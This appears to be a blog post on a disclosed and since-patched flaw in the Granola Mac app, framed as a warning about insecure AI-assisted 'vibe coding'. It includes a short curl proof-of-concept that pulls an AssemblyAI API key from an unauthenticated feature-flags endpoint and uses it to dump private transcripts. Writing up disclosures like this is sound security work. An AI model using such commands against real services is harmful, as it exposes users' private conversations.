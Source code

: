 ```yaml
---
author: Jonathan Haas
pubDate: '2025-05-12'
title: 'When Vibe Coding Goes Wrong: Security Lessons from Granola'
description: >-
  When Vibe Coding Goes Wrong: Security Lessons from Granola: Vibe coding is
  having a moment. And honestly.
featured: false
draft: false
tags:
  - cybersecurity
  - vibe-coding
  - ai-development
  - product-security
  - electron-apps
---
```


Vibe coding is having a moment.  
And honestly? It's kind of awesome.

Type a few sentences into an LLM.  
Get a working app back.  
Ship it. Repeat.

Except when you skip the "understand your code" part...  
You don’t just get quirky bugs.  
You get vulnerabilities.

Granola—a Mac app built with Electron—just gave us a painfully real example.

---

## What Went Wrong at Granola

Researchers found that you could:

1. **Unpack** the app easily (`asar extract` on the `.asar` archive).
1. **Read** through the JavaScript.
1. **Find** API endpoints embedded directly in the client.
1. **Hit** one of those endpoints (`get-feature-flags`) without authentication.
1. **Extract** an AssemblyAI API key from the feature flags.
1. **Use** that key to pull **private transcript data** from AssemblyAI.

### Proof of Concept Looked Like This:

````bash
# Step 1: Leak the API key
curl -X POST "https://api.granola.ai/v1/get-feature-flags" \
 -H "X-Client-Version: 5.226.0" \
 -H "Content-Type: application/json" | jq '.[] | select(.feature=="assembly*key")'

# Step 2: Use the key to dump transcripts
curl https://api.assemblyai.com/v2/transcript \
    -H "Authorization: $apiKey" | jq '.transcripts.[].id' > transcript*ids
cat transcript*ids | head -n 1 | tr -d '"' | while read id; do curl https://api.assemblyai.com/v2/transcript/$id -H "Authorization: $apiKey"; done
```text

### What the Transcripts Had

- Text transcripts of audio recordings.
- Some metadata.
- (Fortunately) **no direct access to raw audio files**.

Still, leaking user conversations—even just as text—is a security incident.
Full stop.

---

## How This Smells Like Vibe Coding

Nobody's saying definitively that Granola was "vibecoded."
But the red flags are textbook:

- Sensitive keys bundled into the client.
- No authentication checks on critical endpoints.
- Client/server boundary confusion.
- Basic security 101 mistakes.

It has the hallmark of someone saying to the AI:

> "Write a cool feature flag system"

...and never stepping back to ask:

> "Wait, should this even be exposed to the client?"

That’s **classic vibe coding**:
Prompt, ship, *hope it works*.

---

## Why Vibe Coding Without Guardrails Is Dangerous

Vibe coding feels magical.
But magic tricks don’t build safe systems.

Without critical layers like:

- **Threat modeling** ("What happens if someone inspects the app?")
- **Secure design** ("Who should be allowed to call this endpoint?")
- **API key management** ("Should keys live in the client?")
- **Principle of least privilege** ("Does this key even need full access?")

You’re not just moving fast.
You're skating blind across a minefield.

### The Hidden Costs of Vibe-Coded Apps

- **Trust Erosion**: Users delete your app—and your brand reputation goes with it.
- **Incident Response**: You scramble to patch, disclose, and recover.
- **Regulatory Exposure**: Privacy laws don’t care if your app was "vibey."
- **Compounding Debt**: Quick fixes become brittle patches on a broken foundation.

---

## The Solution Isn't "No Vibe Coding"

Let’s be clear:
**Vibe coding isn’t the enemy.**

It’s an incredible productivity unlock.
It democratizes building.

But if you’re building with AI-generated code, **you have new responsibilities**:

### 1. Audit Everything

Treat your AI like an enthusiastic intern.
Helpful? Sometimes.
Trustworthy without review? Never.

### 2. Train for Threat Modeling

You don’t have to be a full-time security engineer.
But you do need basic instincts:

- Who gets to call this API?
- What’s the worst thing that could happen here?
- Could this app be unpacked, inspected, reversed?

If you can't answer those questions, you need a security review before launch.

### 3. Lock Down Secrets

Never, ever, ever ship API keys, secrets, or privileged tokens in your client apps.
Use proper backend proxying.
Scope keys narrowly.
Rotate them regularly.

No exceptions.

### 4. Build In Authentication and Authorization Early

Even "just a little" security scaffolding saves you from giant messes later.
Set the bar early:

- Every sensitive API must require auth.
- Every key must be scoped and auditable.
- Every endpoint must assume bad actors are trying to hit it.

---

## Final Thought: It's Only "Vibes" Until It's Real Users

Weekend projects?
Fine. Vibe away. No judgment.

Production apps that handle user data?

**Vibe coding stops. Engineering begins.**

Ship fast.
But ship safe.

Granola’s mistake is a flashing neon sign:
🚨 *The vibes are not enough._ 🚨

---

## Disclosure Timeline (Granola)

- **Feb 18, 2025**: Disclosure contact requested.
- **Feb 26, 2025**: Second request.
- **Mar 10, 2025**: Contact established.
- **Mar 11, 2025**: Issue disclosed to Granola; response received confirming remediation.

✅ API key removed.
✅ Endpoint patched.

But the scar tissue remains—for the users, and for the team.

Let's learn the lesson the easy way.
````
